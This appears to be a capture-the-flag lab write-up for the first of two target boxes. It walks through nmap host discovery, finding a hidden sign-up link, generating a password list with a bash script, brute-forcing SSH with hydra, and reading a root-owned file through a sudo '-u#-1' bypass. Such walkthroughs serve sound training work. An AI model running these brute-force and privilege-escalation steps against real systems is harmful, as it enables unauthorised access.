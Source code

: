 # 2 Boxes 4 Shells II

## Initial Discovery
### Background
A token is located in a user directory (/home/[UserID]/) and the root directory (/root/) of 2 boxes. Gather all 4 tokens only if ... you're elite\
This challenge is completely unique and no advantage is given to challengers that successfully completed last round's 2 Boxes 4 Shells.

### Getting Started
2 rogue boxes are located on the 192.168.86.0/24 network, specifically between .200-.254. Box 1 is the lower IP address and Box 2 is the higher. Identify the 2 boxes' IPs in /24 network, scan hosts identified, access, analyze, exploit, and grab as many tokens as you can.

Note: 192.168.86.2 is a DHCP server that can be ignored

Run nmap scan to discover hosts on the network
`nmap -sn 192.168.86.0/24`

Identify the two boxes in the 200's

## Box 1 User
Run nmap against the box 1:\
`nmap -n -Pn --open -T4 -sT -sV 192.168.86.236 `

Notice that ports 22, 80, and 443 are open. Keep these in mind for later.

Visit the website and see that it is a log-in page

you can right click any of the login fields and inspect them (looking to see if any js contains creds)

when I scrolled to the bottom of webdev tools I seen a comment saying this image could help
<!--Image will help get invite link-->

so I copied the image link and put it in the url

that gave me a B64 image indicating the image name is in base64

so decode the file name and it gave a sign up link

paste the sign up link in the url and created my own account

read the chats and see there is a hint saying the user/pass dsmith:deion3 was changed so that deion was now leet speak, 3 was replaced with a hockey number, and a special charater (!@#$%^&) was added at the end.

Created the following script to generate a password file:
```
#!/bin/bash

special_characters="!@#$%^&"
leet_names=("d3i0n" "d310n" "dei0n" "d3ion" "de10n" "de1on")

for name in "${leet_names[@]}"; do
    for number in {0..99}; do
        for char in $(echo $special_characters | sed 's/./& /g'); do
            password="${name}${number}${char}"
            echo "$password"
    	done
    done
done
```

`./script.sh > pass.txt`

`hydra -l dsmith -P pass.txt 192.168.86.236 ssh`

login with cracked password

`cat token1.txt`

Box 1 User Flag:\
Blue Blazes


## Box 1 Root
Once in, see what dsmith can use sudo for:

`sudo -l`

grep is the only thing he can use

`sudo -V` 

this box is using a vulnerable sudo version

the first flag was token1 so we can assume the next is token2

run this to see full file contents with grep

`sudo -u#-1 grep --color -E "test|$" /root/token2.txt`

Box 1 Root Token:\
Blue Bombers

